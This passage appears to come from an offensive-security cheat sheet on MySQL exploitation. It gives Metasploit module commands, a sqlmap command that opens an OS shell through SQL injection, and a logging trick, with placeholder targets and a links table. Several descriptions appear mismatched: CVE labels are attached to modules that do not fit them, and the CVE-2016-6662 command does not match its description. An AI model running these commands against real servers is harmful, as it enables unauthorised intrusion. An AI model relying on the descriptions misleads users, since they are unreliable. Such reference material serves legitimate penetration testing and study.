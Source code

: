 *   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/mysql/mysql_login
    ```
* **Description:** Exploits a vulnerability in MySQL versions that allows unauthorized remote root access.

#### SQL Injection in Web Applications

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --os-shell
    ```
* **Description:** Exploits SQL injection vulnerabilities in web applications to execute system commands on the underlying OS.

#### CVE-2020-2574

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/mysql/mysql_payload
    set RHOST <target_ip>
    set RPORT 3306
    run
    ```
* **Description:** Exploits a known vulnerability in MySQL 8.0 to execute arbitrary code on the server.

#### CVE-2016-6662

*   **Tool:** \[\[MySQL]]

    ```sql
    mysql -u <user> -p -e "SET GLOBAL general_log = 'on'; SET GLOBAL general_log_file = '/var/lib/mysql/mysql-log.txt';"
    ```
* **Description:** Remote code execution via MySQL config file (`my.cnf`) injection. This vulnerability allows an authenticated user to write arbitrary text to MySQL configuration files, which can lead to command execution as the MySQL user.

## Resources

| **Website**          | **URL**                                                         |
| -------------------- | --------------------------------------------------------------- |
| MySQL Documentation  | https://dev.mysql.com/doc/                                      |
| SQLmap Project       | https://sqlmap.org/                                             |
| Nmap (NSE Scripts)   | https://nmap.org/nsedoc/scripts/mysql-info.html                 |
| Metasploit Framework | https://www.metasploit.com/                                     |
| MySQL Security Guide | https://dev.mysql.com/doc/refman/8.0/en/security.html           |
| Percona Toolkit      | https://www.percona.com/software/mysql-database/percona-toolkit |
| Hydra Manual         | https://tools.kali.org/password-attacks/hydra                   |
| phpMyAdmin           | https://www.phpmyadmin.net/                                     |
| MySQL Workbench      | https://www.mysql.com/products/workbench/                       |
| OWASP SQL Injection  | https://owasp.org/www-community/attacks/SQL\_Injection          |
